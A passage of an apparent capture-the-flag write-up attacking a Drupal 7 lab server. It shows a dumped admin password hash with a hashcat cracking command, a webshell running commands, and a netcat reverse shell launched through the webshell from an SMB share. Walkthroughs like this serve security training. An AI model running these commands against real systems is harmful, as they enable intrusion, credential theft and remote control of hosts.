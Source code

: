 ```
    "data": false,
    "roles": {
        "2": "authenticated user",
        "3": "administrator"
    },
    "rdf_mapping": {
        "rdftype": [
            "sioc:UserAccount"
        ],
        "name": {
            "predicates": [
                "foaf:name"
            ]
        },
        "homepage": {
            "predicates": [
                "foaf:page"
            ],
            "type": "rel"
        }
    },
    "pass": "$S$DRYKUR0xDeqClnV5W0dnncafeE.Wi4YytNcBmmCtwOjrcH5FJSaE"
}

```

I can identify that hash as [Drupal 7](https://hashcat.net/wiki/doku.php?id=example_hashes), and try to break it:

```

$ hashcat -m 7900 admin.hash /usr/share/wordlists/rockyou.txt -o admin.cracked --force

```

However, that was going to take about three days on my system, and I don’t really need the password at this point.

Most useful, I have a webshell:

```

root@kali# curl http://10.10.10.9/0xdf.php?cmd=whoami
nt authority\iusr

```

#### Shell - nc

I’ll use `smbserver` to share a copy of `nc64.exe`, and use that to get a shell by visiting `http://10.10.10.9/0xdf.php?cmd=\\10.10.14.14\share\nc64.exe%20-e%20cmd.exe%2010.10.14.14%20443`

```

root@kali# rlwrap nc -lnvp 443                  
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::443                     
Ncat: Listening on 0.0.0.0:443                   
Ncat: Connection from 10.10.10.9.               
Ncat: Connection from 10.10.10.9:63660.                        
Microsoft Windows [Version 6.1.7600]                
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
                                              
C:\inetpub\drupal-7.54>

```
